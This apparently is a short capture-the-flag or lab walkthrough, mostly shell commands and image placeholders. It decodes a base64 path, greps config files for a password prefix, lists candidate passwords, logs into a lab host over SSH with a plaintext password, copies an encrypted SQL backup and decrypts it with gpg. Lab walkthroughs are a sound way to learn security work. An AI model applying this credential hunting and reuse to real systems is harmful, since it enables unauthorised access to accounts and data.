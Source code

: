 ```
echo 'aG9tZS9zYW1lZXIvSGlzdG9yeSBMQi9sYWJtaW5kL2xhdGVzdEJ1aWxkL2NvbmZpZ0JEQgo=' |base64 -d
```

```
cd "home/sameer/History LB/labmind/latestBuild/configBDB"
```

![[Pasted image 20230622152207.png]]

```
grep -iRl 'ebq'
```

![[Pasted image 20230622152802.png]]

![[Pasted image 20230622152945.png]]

```
ebqiojsdfioj
ebqiojsiodj
ebqiojdifoj
ebqiopsjdfopj
ebqnice
ebqops
ebqiuiud
ebqjoisjdfij
ebqkjjdd
ebqijsji
ebqopkopk
ebqattle
```

```
ssh sameer@10.10.153.142
```

```
thegreatestpasswordever000
```

```
scp sameer@10.10.153.142:/"/home/shared/sql/2020-08-13.zip.gpg" .
```

![[Pasted image 20230623150535.png]]

![[Pasted image 20230623151053.png]]

```
gpg 2020-08-13.zip.gpg
```

```
ebqattle
```

![[Pasted image 20230623152608.png]]
